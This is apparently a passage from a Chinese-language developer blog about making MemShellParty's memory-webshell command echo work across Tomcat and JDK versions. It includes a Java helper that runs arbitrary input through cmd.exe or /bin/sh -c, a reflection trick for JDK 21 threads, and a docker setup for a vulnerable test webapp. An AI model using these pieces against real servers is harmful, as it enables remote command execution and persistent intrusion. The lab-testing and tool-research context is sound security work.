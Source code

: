 ```java
        assertThat(response.body().string(), anyOf(
                containsString("hello: not found")
        ));
    }
}
```

代码调整为如下，InputStream 没东西就拿 ErrorStream

```java
private String run(String data) throws Exception {
    String[] cmd = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", data} : new String[]{"/bin/sh", "-c", data};
    Process process = new ProcessBuilder(cmd).start();
    try {
        return new Scanner(process.getInputStream()).useDelimiter("\\A").next();
    } catch (NoSuchElementException e) {
        return new Scanner(process.getErrorStream()).useDelimiter("\\A").next();
    }
}
```

在测试 JDK21 的 Tomcat 环境下一直报错，发现是 JDK21 的线程没有 target 了

```java
Object target = null;
try {
    target = getFieldValue(thread, "target");
} catch (NoSuchFieldException e) {
    // JDK 21
    target = getFieldValue(getFieldValue(thread, "holder"), "task");
}
```

当我在测试 Tomcat5 的环境时，一直失败，自动化测试的好处就是，改了一点代码就能直接跑进行验证，所以我一边打印一边猜测哪里可能有问题进行代码调整，这样测试了好半天也没结果，决定还是起环境调试吧。

## Tomcat5 回显

MemShellParty 自带很多 docker 环境，可直接测试，启动 integration-test/docker-compose/tomcat/docker-compose-5-jdk6.yaml，（war 包就是项目里面的靶场包，编译命令为 `./gradlew :vul:vul-webapp:war`）

```yaml
services:
  tomcat56:
    image: reajason/tomcat:5-jdk6
    ports:
      - "8080:8080"
      - "5005:5005"
    environment:
      JAVA_OPTS: -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005
    volumes:
      - ../../../vul/vul-webapp/build/libs/vul-webapp.war:/usr/local/tomcat/webapps/app.war
```
